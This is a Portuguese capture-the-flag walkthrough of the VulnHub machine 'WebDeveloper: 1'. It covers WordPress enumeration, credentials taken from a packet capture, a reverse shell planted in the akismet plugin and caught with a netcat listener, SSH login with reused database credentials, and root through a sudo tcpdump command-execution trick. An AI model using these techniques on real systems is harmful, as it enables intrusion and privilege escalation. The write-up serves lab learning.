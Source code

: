 # WebDeveloper: 1

Location: [vulnhub.com](vulnhub.com)  
Dificuldade: Easy

## Identificação e Enumeração
O primeiro passo foi identificar o IP da VM:
```bash
# netdiscover -r 192.168.0.1/24
```
O IP identificado foi 192.168.0.108. Fazendo um portscan simples com o nmap podemos ver que as portas 22 e 80 estão abertas, rodando SSH e HTTP, respectivamente:
```bash
# nmap -sV -sT -p- 192.168.0.108
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Na porta 80 está rodando um blog feito em wordpress, sem muitas informações úteis à vista, mas executando o wpscan - que já mostra versões dos plugins e temas, vulnerabilidades e usuários - obtém-se alguns dados:
```bash 
$ wpscan --url http://192.168.0.108 -e ap,u
(...)
[!] 7 vulnerabilities identified:
(...)
[+] Enumerating All Plugins

[i] No plugins Found.

[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] webdeveloper
(...)
``` 
Algumas vulnerabilidades e um usuário encontrado, porém sem senha, continuando a enumeração com dirb:
```bash
$ dirb http://192.168.0.108 /usr/share/dirb/wordlists/big.txt

==> DIRECTORY: http://192.168.0.108/ipdata/                                
+ http://192.168.0.108/server-status (CODE:403|SIZE:301)                   
==> DIRECTORY: http://192.168.0.108/wp-admin/                              
==> DIRECTORY: http://192.168.0.108/wp-content/                            
==> DIRECTORY: http://192.168.0.108/wp-includes/
```
o diretório /ipdata/ e mais alguns diretórios padrões do wordpress, se acessarmos o diretório /ipdata/ conseguimos encontrar um arquivo chamado analyze.cap
![Foto do .cap](img/analyzecap.png)

Como é uma captura de pacotes, podemos olhar o tráfego com wireshark e procurar alguma informação importante. Como a informação que queria era uma senha ou algo que levasse a senha, organizei os pacotes por protocolo e vi que foi feito uma requisição via POST em /wp-login.php 
![Pacote com a informação](img/pacote.png)
Olhando os detalhes dessa requisição vemos os parâmetros passados, que são justamente usuario e senha.
![senha e login](img/senha.png)

## Exploração
A senha está encodada, pois contém caracteres especiais, mas é facilmente decodada em qualquer ferramenta de urlencode na internet, depois de decodificá-la temos que encontrar um meio de ter acesso a uma webshell. Olhando alguns arquivos, vi que eu poderia editar a página index.php do plugin akismet, esse plugin estava desativado, então depois editar a página era necessário ativá-la na aba Plugin do wordpress:
Obs.: Substituir o IP pelo seu
![Foto akismet](img/indexakismet.png)

E no seu computador abrir a porta 1234
```bash
$ nc -vvnlp 1234
```

Os plugins do wordpress ficam na url: http://192.168.0.108/wp-content/plugins/
Então para acessar a index.php do akismet, basta acessar a página:
http://192.168.0.108/wp-content/plugins/akismet/index.php
Ao acessar você deve ganhar uma shell com o bash, tendo acesso aos arquivos do server
```bash
$ nc -vvnlp 1234
Listening on any address 1234 (search-agent)
Connection from 192.168.0.108:50532
bash: cannot set terminal process group (1131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webdeveloper:/var/www/html/wp-content/plugins/akismet$
```
Entrando na /home/webdeveloper não tem nenhum arquivo importante, mas voltando a estrutura do wordpress, se acessarmos o arquivo wp-config.php podemos ver a senha e login do banco de dados

![login db](img/dbfoto.png)

Se tentarmos acessar o banco de dados com essa shell, obteremos um erro, então resolvi tentar essas mesmas credenciais para fazer login via SSH
```bash
$ ssh webdeveloper@192.168.0.108
webdeveloper@192.168.0.108\'s password:
webdeveloper@webdeveloper:~$ 
```
E temos o nosso login ssh, mas ainda sem encontrar a flag, pois ela está em /root e ainda estamos logados com o usuário 'webdeveloper'.

## PrivEsc
Rodei o LinEnum que não me deu muitas informações importantes, então vi quais programas eu poderia executar de acordo com o sudoers
```bash
$ sudo -l
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```
Sabendo que o tcpdump pode nos permitir escalar privilégios, procurei formas de fazê-lo e encontrei isso [aqui](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)

então segui os passos:
```bash
$ echo $'id\ncat /root/flag.txt' > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
uid=0(root) gid=0(root) groups=0(root)
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```
E aí está a flag!!
